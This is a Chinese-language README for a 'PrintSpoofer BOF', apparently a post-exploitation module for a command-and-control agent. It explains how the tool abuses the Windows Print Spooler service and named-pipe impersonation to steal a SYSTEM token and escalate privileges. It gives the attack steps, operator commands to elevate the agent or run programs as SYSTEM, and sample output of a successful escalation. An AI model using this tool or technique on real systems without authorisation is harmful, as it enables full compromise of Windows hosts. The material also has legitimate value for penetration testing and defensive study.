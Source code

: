 # PrintSpoofer BOF

## 概述

PrintSpoofer 是一种本地权限提升技术，通过滥用 Windows Print Spooler 服务实现从普通用户或服务账户提升到 SYSTEM 权限。

## 原理

### 技术背景

Print Spooler 服务（spoolsv.exe）以 SYSTEM 权限运行，负责管理打印队列和打印机端口。该服务在与客户端通信时会使用 Named Pipes，当客户端创建特定的 Named Pipe 并触发 Print Spooler 连接时，可以通过 `ImpersonateNamedPipeClient` API 窃取 SYSTEM token。

### 攻击流程

1. **创建 Named Pipe**: 创建一个随机命名的 Named Pipe
2. **触发连接**: 使用 Print Spooler 的 XcvData API 添加端口，触发服务连接到我们的 Pipe
3. **等待连接**: 等待 Print Spooler 服务连接
4. **Impersonate**: 调用 `ImpersonateNamedPipeClient` 窃取 SYSTEM token
5. **提权**: 使用 token 提升当前线程或创建新进程

## 使用方法

### 基本语法

```bash
printspoofer [--token | --run <program>]
```

### 参数说明

- `--token`: 将当前 agent 提升到 SYSTEM 上下文
- `--run <program>`: 以 SYSTEM 权限运行指定程序（带参数）

**注意**: `--token` 和 `--run` 互斥，只能使用其中一个

### 使用示例

#### 示例 1: 提升当前 Agent

```bash
printspoofer --token
```

**输出示例**:
```
[*] PrintSpoofer - Local Privilege Escalation
[*] Technique: Named Pipe Impersonation via Print Spooler

[*] Named Pipe created: \\.\pipe\printspoof1a2b3c4d
[*] Triggering named pipe connection via Print Spooler...
[+] Triggered Print Spooler connection
[*] Waiting for connection (timeout: 5000 ms)...
[+] Client connected!
[*] Attempting to impersonate client...
[+] Impersonation successful!
[+] Obtained SYSTEM (S-1-5-18) token with impersonation level: Impersonation
[+] SYSTEM token applied to current thread!
[+] Impersonate to SYSTEM succeeded

[*] PrintSpoofer completed
```
